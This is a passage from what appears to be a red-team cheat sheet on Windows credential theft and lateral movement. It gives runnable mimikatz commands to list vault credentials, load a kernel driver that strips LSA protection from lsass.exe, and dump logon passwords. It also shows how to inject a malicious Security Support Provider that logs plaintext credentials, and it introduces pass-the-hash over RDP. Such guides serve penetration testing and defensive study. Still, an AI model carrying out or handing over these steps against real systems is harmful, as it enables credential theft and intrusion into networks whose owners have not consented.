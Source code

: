 ```powershell
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```

:exclamation: What if mimikatz fails to dump credentials because of LSA Protection controls ?

- LSA as a Protected Process (Kernel Land Bypass)

  ```powershell
  #Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1
  reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa

  #Next upload the mimidriver.sys from the official mimikatz repo to same folder of your mimikatz.exe
  #Now lets import the mimidriver.sys to the system
  mimikatz # !+

  #Now lets remove the protection flags from lsass.exe process
  mimikatz # !processprotect /process:lsass.exe /remove

  #Finally run the logonpasswords function to dump lsass
  mimikatz # sekurlsa::logonpasswords
  ```

- LSA as a Protected Process (Userland "Fileless" Bypass)

  - [PPLdump](https://github.com/itm4n/PPLdump)
  - [Bypassing LSA Protection in Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland)

- LSA is running as virtualized process (LSAISO) by Credential Guard

  ```powershell
  #Check if a process called lsaiso.exe exists on the running processes
  tasklist |findstr lsaiso

  #If it does there isn't a way tou dump lsass, we will only get encrypted data. But we can still use keyloggers or clipboard dumpers to capture data.
  #Lets inject our own malicious Security Support Provider into memory, for this example i'll use the one mimikatz provides
  mimikatz # misc::memssp

  #Now every user session and authentication into this machine will get logged and plaintext credentials will get captured and dumped into c:\windows\system32\mimilsa.log
  ```

- [Detailed Mimikatz Guide](https://adsecurity.org/?page_id=1821)
- [Poking Around With 2 lsass Protection Options](https://medium.com/red-teaming-with-a-blue-team-mentaility/poking-around-with-2-lsass-protection-options-880590a72b1a)

### Remote Desktop Protocol

If the host we want to lateral move to has "RestrictedAdmin" enabled, we can pass the hash using the RDP protocol and get an interactive session without the plaintext password.
